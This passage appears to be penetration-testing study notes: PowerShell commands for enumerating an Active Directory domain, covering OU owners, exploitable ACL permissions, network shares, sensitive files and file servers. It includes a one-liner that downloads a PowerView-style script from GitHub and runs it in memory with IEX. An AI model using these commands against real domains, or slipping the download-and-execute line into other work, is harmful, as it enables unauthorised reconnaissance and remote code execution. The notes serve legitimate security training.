 ```
```
```
Get-ADOrganizationalUnit -filter * -Properties * | select Name, CanonicalName, DistinguishedName, @{label='Owner';expression={$_.nTSecurityDescriptor.owner}}
Get-ADOrganizationalUnit -filter * -Properties * | select Name, CanonicalName, DistinguishedName, @{label='Owner';expression={$_.nTSecurityDescriptor.owner}} | out-file "OUOwners.txt"
$FormatEnumerationLimit=-1
Get-ADOrganizationalUnit -filter * -Properties * | select Name, CanonicalName, DistinguishedName, @{label='Owner';expression={$_.nTSecurityDescriptor.owner}} | Out-String -Width 4096 | out-file "OUOwners.txt" 
Get-ADOrganizationalUnit -filter * -Properties * | select Name, CanonicalName, @{label='Owner';expression={$_.nTSecurityDescriptor.owner}} | Export-CSV "OUOwners.csv" | Out-String -Width 4096
```
##### DOMAIN OU - LIST OWNER SINGLE OU
```
$OU = Get-ADOrganizationalUnit -identity 'OU=TEST,DC=TECH,DC=LOCAL' -Properties nTSecurityDescriptor 
$OU | Select-Object -Property Name, @{name='Owner'; expression={$_.nTSecurityDescriptor.owner}}
```



## DOMAIN MISC
##### DOMAIN - SCAN ALL INTERESTING ACL PERMISSIONS TO ALL
```
$FormatEnumerationLimit=-1
Invoke-ACLScanner -ResolveGUIDs | select ObjectDN,IdentityReferenceName,ActiveDirectoryRights | Out-String -Width 4096
```
##### DOMAIN - SCAN ALL INTERESTING ACL PERMISSIONS TO A USER
```
$FormatEnumerationLimit=-1
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "vegeta"} | select ObjectDN,IdentityReferenceName,ActiveDirectoryRights | Out-String -Width 4096
```
##### DOMAIN - SCAN ALL INTERESTING ACL PERMISSIONS TO A MATCH
```
$FormatEnumerationLimit=-1
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "Domain Admins"} | select ObjectDN,IdentityReferenceName,ActiveDirectoryRights | Out-String -Width 4096
```
##### DOMAIN - FIND SHARES
```
curl https://github.com/n0ts0cial/oscp/raw/main/Invoke-ShareFinder.ps1 -outfile Invoke-ShareFinder.ps1
import-module .\invoke-sharefinder.ps1
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-ShareFinder.ps1")
```
```
Invoke-Sharefinder -ExcludeStandard -ExcludePrint -ExcludeIPC -Verbose
Invoke-Sharefinder -ExcludeStandard -ExcludePrint -ExcludeIPC
Invoke-Sharefinder -ExcludeStandard -ExcludePrint -ExcludeIPC | findstr /V shared
```
##### DOMAIN - FIND SENSITIVE FILES
```
Invoke-FileFinder -Verbose
```
##### DOMAIN - FIND FILE SERVER
```
Get-DomainFileServer
```
